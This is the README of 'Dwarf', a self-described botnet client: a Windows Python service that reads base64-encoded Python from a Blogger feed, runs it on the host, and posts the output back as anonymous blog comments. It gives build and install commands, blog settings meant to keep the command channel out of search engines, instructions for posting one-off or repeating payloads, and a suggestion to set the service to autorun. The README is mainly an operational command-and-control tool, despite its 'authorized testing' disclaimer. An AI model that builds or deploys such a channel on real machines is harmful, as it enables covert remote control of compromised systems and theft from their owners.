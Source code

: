 <p align="center">
  <h3 align="center">Dwarf</h3>
  <p align="center">Tiny botnet client that runs code from a remote blog</p>
  <p align="center">
    <a href="https://twitter.com/dsecbx">
      <img src="https://img.shields.io/badge/twitter-@dsecbx-blue.svg">
    </a>
    <a href="https://www.gnu.org/licenses/gpl-3.0">
      <img src="https://img.shields.io/badge/License-GPLv3-blue.svg">
    </a>
  </p>
</p>

<hr>

![](/dwarf.png)

__Disclaimer:__ This project should be used for authorized testing or educational purposes only.
# How it works

Dwarf is a Windows service created in Python that doesn't have any potentially malicious code built in. It was developed to listen to a blog feed and run the code that is posted in there in the machine. It also comes with the option to add a comment replying back to the post with the output of the piece of the code run.


Flow:
  - The master codes something in Python and convert it to base64;
  - The master posts this piece of code in the blog without a title or with the title "repeat" to have it run until it lasts;
  - The bot sends a "heartbeat" by sending a get to the blog;
  - The bot checks for the blog feed and gets the latest post;
  - The bot checks if the post has already been run using the post id and ignores duplicated ones unless the post title is "repeat";
  - The bot runs the piece of code and if there's an output in the stdout it comments it on the post as anonymous (max 4000 characteres);
  - The bot saves the post id in a list to not repeat the code
  - The boot sleeps for a while.

### Installation

Here's how you can build the service to listen to the blog and test it locally installing the service manually. To automate this you'll need to use a service wrapper to install the service and set it as autorun on the machine. Feel free to submit a PR if you know how to do it.

#### Building the client

With Python on your machine, setup a virtualenv and install the requirements for the project.

```sh
$ virtualenv venv
$ source venv/Scripts/activate
$ pip install -r requirements.txt
```

To build the client use the run.py to speed up the process.

```sh
$ python run.py --build --output "dwarf" -u anycustomblogyoudid.blogspot.com
```

#### Setting up the blog

On blogger.com, create a blog and make sure you have the following settings:
 - Not adult content;
 - Not visible to search mechanisms;
 - Blog set as public;
 - Comments free to everyone(inclusing anonymous);
 - Comments under approval
 - Allow full blog feed

#### Making a post/submitting your code

Once you have your blog online, you'll start posting on there to have your code executed on the client machine.
First of all, write a piece of code and use the run.py to compile to base64. The two example files in this repository are there to show you what type of code you can have running on your client.
```sh
$ python run.py --generate_post "example1.py"
```
Now with your code already in base64, on the posting page, set the view as raw HTML and paste the base64 in there. This page can't containg anything else but the base64 piece of code.
Your post title needs to be empty or with the name __"repeat"__. An empty title will have the clients to run the code only once or on every startup. An title with the __"repeat"__ word will have the client running this piece of code every time it checks for a new command.
By default the client checks for new code every 30 seconds.

#### Running the service locally

If you want to test the service on your machine, after building it, open a powershell window as Administrator in the folder that the .exe is, and run the following commands:

```sh
$ ./dwarf.exe install
$ ./dwarf.exe debug
```

__Attention:__ The bot.py file needs to have all the imports that the code you post needs, otherwise will fail. Make sure to import all of them before you build. Think in advance.
